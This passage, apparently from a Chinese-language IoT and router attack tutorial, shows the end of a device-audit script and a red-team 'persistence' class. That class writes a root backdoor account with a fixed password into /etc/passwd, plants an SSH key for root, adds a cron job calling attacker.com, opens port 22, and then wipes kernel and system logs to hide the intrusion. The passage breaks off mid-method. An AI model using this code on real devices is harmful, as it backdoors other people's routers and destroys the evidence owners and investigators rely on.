         # 保存报告
        with open('iot_audit_report.json', 'w') as f:
            json.dump(report, f, indent=2)
        
        return report

# 使用示例
if __name__ == "__main__":
    audit = IoTDeviceAudit("targets.txt")
    
    for target in audit.targets:
        result = audit.run_comprehensive_scan(target)
        audit.results[target] = result
    
    report = audit.generate_report()
    print("Audit completed. Report saved to iot_audit_report.json")
十六、红队行动中的高级应用
1. 持久化访问技术
python
class RouterPersistance:
    def __init__(self, exploit_module):
        self.exploit = exploit_module
    
    def establish_backdoor(self):
        # 1. 创建后门账户
        self.exploit.run("echo 'backdoor:$(openssl passwd -1 password123):0:0:root:/root:/bin/sh' >> /etc/passwd")
        
        # 2. 添加 SSH 密钥
        self.exploit.run("mkdir -p /root/.ssh")
        self.exploit.run("echo 'ssh-rsa AAAAB3...' >> /root/.ssh/authorized_keys")
        
        # 3. 创建定时任务保持访问
        self.exploit.run("echo '*/5 * * * * curl http://attacker.com/keepalive' >> /etc/crontab")
        
        # 4. 修改防火墙规则
        self.exploit.run("iptables -I INPUT -p tcp --dport 22 -j ACCEPT")
    
    def clean_evidence(self):
        # 清理攻击痕迹
        commands = [
            "dmesg -c",
            "echo '' > /var/log/syslog",
            "find /tmp -name '*.elf' -delete"
        ]
        